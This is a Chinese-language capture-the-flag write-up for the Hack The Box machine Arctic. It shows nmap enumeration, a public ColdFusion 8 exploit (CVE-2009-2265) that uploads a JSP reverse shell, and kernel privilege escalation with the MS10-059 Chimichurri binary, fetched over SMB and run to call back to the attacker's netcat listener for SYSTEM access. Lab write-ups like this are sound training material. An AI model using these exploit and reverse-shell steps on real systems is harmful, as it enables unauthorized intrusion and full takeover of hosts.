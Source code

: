 kali 10.10.16.5

靶机 10.10.10.11

[HTB: Arctic | 0xdf hacks stuff](https://0xdf.gitlab.io/2020/05/19/htb-arctic.html#priv-tolis--system)

# 端口探测

```bash
nmap  -sV -sC -O  $IP -oA nmap.txt -p `nmap -sS -sU -PN -p- $IP --min-rate=8888 | grep '/tcp\|/udp' | awk -F '/' '{print $1}' | sort -u | tr '\n' ','`
```

```bash
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: phone|general purpose|specialized
Running (JUST GUESSING): Microsoft Windows Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

# web打点

谷歌搜索 8500 端口常见服务

<img src=".\图片\Snipaste_2023-09-10_14-32-59.png" alt="Snipaste_2023-09-10_14-32-59" style="zoom:80%;" />

访问 8500 端口，浏览器和 nc 都延时了好久

<img src=".\图片\Snipaste_2023-09-10_14-34-45.png" alt="Snipaste_2023-09-10_14-34-45" style="zoom:80%;" />

<img src=".\图片\Snipaste_2023-09-10_14-37-36.png" alt="Snipaste_2023-09-10_14-37-36" style="zoom: 80%;" />

得到 cms 为 coldfusion 8



## 尝试1

```bash
└─# searchsploit coldfusion  -m 16788
```

得到 cve 2009-2265 ，于是 github 找 exp

```bash
└─# git clone https://github.com/0xConstant/CVE-2009-2265          
```

由于延时太高了，我在 exp 里修改了一下延时

```bash
└─# python exploit.py http://10.10.10.11:8500 10.10.16.5 1234
[ + ] Upload successful, uploaded to:
[>>>] http://10.10.10.11:8500/userfiles/file/ppvgleRLAE.jsp
[...] Opening the shell, hold your beer...
HTTPConnectionPool(host='10.10.10.11', port=8500): Read timed out. (read timeout=10)
```

监听

```bash
└─# nc -lvnp 1234            
listening on [any] 1234 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.11] 49308
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>whoami
whoami
arctic\tolis
```

## 尝试2

其它 searchsploit 里配合文件包含，进入后台上传文件



# 提权

内核提权

```
c:\Users\tolis\Desktop>systeminfo
systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 §£
System Boot Time:          11/9/2023, 5:15:12 ££
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 5.059 MB
Virtual Memory: Max Size:  12.285 MB
Virtual Memory: Available: 11.242 MB
Virtual Memory: In Use:    1.043 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11

```

用 [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) 来枚举

```
└─# python2 windows-exploit-suggester.py --update
```

解决脚本报错

[Getting Error : please install and upgrade the python-xlrd library · Issue #43 · AonCyberLabs/Windows-Exploit-Suggester · GitHub](https://github.com/AonCyberLabs/Windows-Exploit-Suggester/issues/43)

powershell 使用 wget 

```powershell
wget -Uri "https://bootstrap.pypa.io/pip/2.7/get-pip.py" -OutFile "get-pip.py" 
```

python2 安装 pip

```
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py   #下载pip
python get-pip.py   #安装pip
python -m pip -V    #查看安装pip的版本
```

```bash
└─# python2 -m pip install xlrd==1.2.0 -i https://pypi.tuna.tsinghua.edu.cn/simple                           
```



终于成功使用脚本

```bash
└─# python2 windows-exploit-suggester.py  --database 2023-09-10-mssb.xls --systeminfo systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```



## MS10-059

exp 为 [windows-kernel-exploits/MS10-059](https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059%3A Chimichurri/Compiled/Chimichurri.exe)

开启 smb 共享

```bash
└─# export PATH=/usr/share/doc/python3-impacket/examples:$PATH                                               
                                             
┌──(root💀kali)-[~/Arctic]
└─# smbserver.py share .
```

靶机下载 exp

```
net use \\10.10.16.5\share
copy \\10.10.16.5\share\Chimichurri.exe .
```



靶机运行 exp

```
Chimichurri.exe 10.10.16.5 443
```

kali 监听

```bash
└─# nc -lvnp 443             
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.11] 49586
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.


C:\ColdFusion8\runtime\bin>whoami
whoami
nt authority\system
```
